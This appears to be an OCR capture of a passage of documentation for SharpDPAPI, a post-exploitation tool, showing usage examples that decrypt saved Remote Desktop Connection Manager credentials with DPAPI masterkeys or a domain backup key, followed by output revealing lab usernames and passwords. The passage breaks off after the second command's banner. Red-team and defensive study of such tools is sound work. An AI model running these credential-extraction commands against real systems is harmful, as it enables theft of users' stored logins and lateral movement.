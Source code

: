 
Using domain {GUID}:SHA1 masterkey mappings:

 C:\Temp>SharpDPAPI.exe rdg {8abc35b1-b718-4a86-9781-7fd7f37101dd}:ae349cdd3a230f5e04f70fd02be69e2e71f1b017

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.3.0


 [*] Action: RDG Triage

 [*] Using CryptUnprotectData() to decrypt RDG passwords

 [*] Triaging RDCMan Settings Files for current user

 RDCManFile : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
 Accessed : 5/9/2019 1158 AM
 Modified : 5/9/2019 1158 AM
 Recent Server : test\primary.testlab.local

 Cred Profiles

 Profile Name : testprofile
 UserName : testlab.local\dfm
 Password : Password123!

 Default Logon Credentials

 Profile Name : Custom
 UserName : TESTLAB\harmj0y
 Password : Password123!

 C:\Users\harmj0y\Documents\test.rdg

 Servers

 Name : secondary.testlab.local

 Name : primary.testlab.local
 Profile Name : Custom
 UserName : TESTLAB\dfm.a
 Password : Password123!


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

 C:\Temp>SharpDPAPI.exe rdg /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.3.0

